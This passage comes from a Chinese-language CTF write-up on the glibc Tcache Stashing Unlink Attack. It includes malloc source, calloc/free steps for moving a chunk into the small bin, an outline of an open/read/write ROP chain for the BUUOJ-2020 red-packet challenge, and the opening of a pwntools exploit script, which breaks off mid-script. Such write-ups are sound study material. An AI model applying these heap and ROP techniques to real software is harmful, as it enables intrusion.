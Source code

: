 ```c
                    if (av != &main_arena)
                        set_non_main_arena (tc_victim);
                    //取出最后一个Chunk
                    bin->bk = bck;
                    bck->fd = bin;
                    //将其放入到Tcache中
                    tcache_put (tc_victim, tc_idx);
                }
            }
        }
#endif
```

利用unsorted bin中的last remainder来获取small bin：

```c
[1] A = calloc(1, 0x400); free(A);  // 操作7次
[2] A = calloc(1, 0x400); free(A);
[3] A = calloc(1, (0x400-0x100));
[4] calloc(1, 0x400);
```

1. 将tcache idx_0x400 bin填充满

2. 此时free 的堆块会进入到unsorted bin中

3. 申请（0x400-0x100）大小的堆块，由于calloc不从tcache中拿，所以直接从unsorted bin中拿走，剩下0x100的堆块放入last remainder中

4. 再申请一个比0x100大的堆块，由于last remainder大小不够，所以会被放入small bin中，而重新开辟一个0x400的堆块

   

### BUUOJ-2020 新春红包题-3

以BUUOJ-2020 新春红包题-3为例，题目中使用calloc函数分配堆块，该函数不会从tcache中获取。题目中有一个后门函数，会比较第一个堆块的某个地址与0x7F0000000000的大小，如果大于就会调用read函数获取输入，这里存在栈溢出漏洞，并且没有canary校验。但是这里one_gadget的条件都不符合，所以需要自己构造rop链：通过open函数打开flag文件，之后用read函数将文件内容读到堆中的某个地址，最后通过write函数将堆中地址上的内容输出，获取flag。

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-Tcache-Stashing-Unlink-Attack利用思路\8.png)

### exp代码及分析

```python
from pwn import *
context.log_level = 'debug'

p = process("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
onegadget = 0xe237f
onegadget = 0xe2386
onegadget = 0xe2383

onegadget = 0x106ef8

def add(idx, size, content):
    p.recvuntil("Your input:")
    p.sendline("1")
    p.recvuntil("red packet idx")
    p.sendline(str(idx))
    p.recvuntil("(1.0x10 2.0xf0 3.0x300 4.0x400):")
    p.sendline(str(size))
    p.recvuntil("Please input content:")
    p.sendline(content)

def delete(idx):
    p.recvuntil("Your input:")
    p.sendline("2")
```